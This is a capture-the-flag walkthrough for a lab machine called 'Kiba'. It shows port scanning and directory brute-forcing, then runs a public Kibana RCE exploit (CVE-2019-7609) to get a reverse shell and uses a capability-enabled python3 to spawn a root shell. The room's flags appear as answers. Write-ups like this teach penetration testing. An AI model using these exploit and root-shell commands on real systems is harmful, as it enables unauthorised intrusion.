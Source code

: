 # Kiba


1. Enumerate with nmap, scan ports 1-10000. Port 22 running ssh, 80 running apache, and 5601 running Kibana.
```
root@ip-10-10-245-121:~# sudo nmap -sS -A -p 1-10000 10.10.51.212

Starting Nmap 7.60 ( https://nmap.org ) at 2022-04-21 19:55 BST
Nmap scan report for ip-10-10-51-212.eu-west-1.compute.internal (10.10.51.212)
Host is up (0.0054s latency).
Not shown: 9997 closed ports
PORT     STATE SERVICE   VERSION
22/tcp   open  ssh       OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9d:f8:d1:57:13:24:81:b6:18:5d:04:8e:d2:38:4f:90 (RSA)
|   256 e1:e6:7a:a1:a1:1c:be:03:d2:4e:27:1b:0d:0a:ec:b1 (ECDSA)
|_  256 2a:ba:e5:c5:fb:51:38:17:45:e7:b1:54:ca:a1:a3:fc (EdDSA)
80/tcp   open  http      Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
5601/tcp open  esmagent?
| fingerprint-strings: 
|   DNSStatusRequest, DNSVersionBindReq, Help, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NCP, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, X11Probe: 
|     HTTP/1.1 400 Bad Request
|   FourOhFourRequest, GetRequest, HTTPOptions: 
|     HTTP/1.1 503 Service Unavailable
|     retry-after: 30
|     content-type: text/html; charset=utf-8
|     cache-control: no-cache
|     content-length: 30
|     Date: Thu, 21 Apr 2022 18:55:47 GMT
|     Connection: close
|_    Kibana server is not ready yet
```

2. Visit the webpage, not much there except a hint about linux capabilities. Use gobuster to brute force directories
```
root@ip-10-10-245-121:~# gobuster dir -u http://10.10.51.212/ -w /usr/share/wordlists/dirb/common.txt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.51.212/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2022/04/21 20:10:09 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/index.html (Status: 200)
/server-status (Status: 403)
===============================================================
2022/04/21 20:10:10 Finished
===============================================================
```

3. Do some research on Kibana, it has a RCE vulnerability `CVE-2019-7609`, and we find an exploit on [github](https://github.com/LandGrey/CVE-2019-7609).
4. Start a netcat listener and run the exploit `python2 CVE-2019-7609-kibana-rce.py -u http://10.10.51.212:5601 -host 10.10.245.121 -port 4444 --shell` to get a shell. Print the contents of `/home/kiba` to get `THM{1s_easy_pwn3d_k1bana_w1th_rce}`.
5. List capabilities with getcap
```
kiba@ubuntu:/home/kiba/kibana/bin$ getcap -r / 2> /dev/null
getcap -r / 2> /dev/null
/home/kiba/.hackmeplease/python3 = cap_setuid+ep
/usr/bin/mtr = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/systemd-detect-virt = cap_dac_override,cap_sys_ptrace+ep
```
6. Get a root shell with `/home/kiba/.hackmeplease/python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'`, and print out root.txt to get `THM{pr1v1lege_escalat1on_us1ng_capab1l1t1es}`.
